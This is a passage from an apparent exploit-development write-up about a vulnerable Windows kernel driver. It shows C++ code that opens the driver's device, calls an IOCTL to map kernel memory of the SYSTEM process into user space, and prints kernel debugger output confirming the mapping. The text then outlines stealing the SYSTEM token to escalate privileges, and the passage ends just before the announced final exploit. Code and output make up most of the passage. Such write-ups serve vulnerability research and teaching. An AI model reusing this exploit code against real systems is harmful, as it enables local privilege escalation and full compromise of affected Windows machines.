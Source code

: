 ```cpp
    DeviceIoControl(hDriver, IOCTL_01, (LPVOID)uInBuf, 0x1000, uOutBuf, 0x1000, &bytesWritten, NULL);
    QWORD* out = (QWORD*)((QWORD)uOutBuf);
    QWORD mapped = *(out + 2);
    return mapped;
}

int main() {
    HANDLE hDriver = CreateFile(L"\\\\.\\HW", GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);
    if (hDriver == INVALID_HANDLE_VALUE)
    {
        printf("[!] Error while creating a handle to the driver: %d\n", GetLastError());
        exit(1);
    }       

    printf("[>] Exploiting driver..\n");
    QWORD systemProc = getSystemEProcess();
    printf("System Process: %llx\n", systemProc);

    QWORD systemProcMap = mapArbMem(systemProc, hDriver);    
    printf("System Process Mapping: %llx\n", systemProcMap);

    getchar();
    DebugBreak();
    return 0;
}
```

The `getchar()` gives us the chance to copy the addresses out and the `DebugBreak()` conveniently breaks in the context of our process.

```
[>] Exploiting driver..
System Process: ffff850120cab040
System Process Mapping: 1ce40870040
...
1: kd> dq ffff850120cab040
ffff8501`20cab040  00000000`00000003 ffff8501`20cab048
ffff8501`20cab050  ffff8501`20cab048 ffff8501`20cab058
1: kd> dq 1ce40870040
000001ce`40870040  00000000`00000003 ffff8501`20cab048
000001ce`40870050  ffff8501`20cab048 ffff8501`20cab058
```

As expected, we got a mapping of the target address. We did not cover the output buffer yet – essentially if we inspect it after triggering the IOCTL with valid arguments we get something like the following back, which has the mapped user-mode address as the 3rd value:

```
 ffff850127c16970 4343434300001000 1ce40870040 00000000 ...
```

At this point, all that is left to do is read the SYSTEM token and then iterate through the `ActiveProcessLinks` linked list until we find our own process. When we find it, we overwrite our own Token with the SYSTEM one and are done. The final exploit implementing this can be found below:
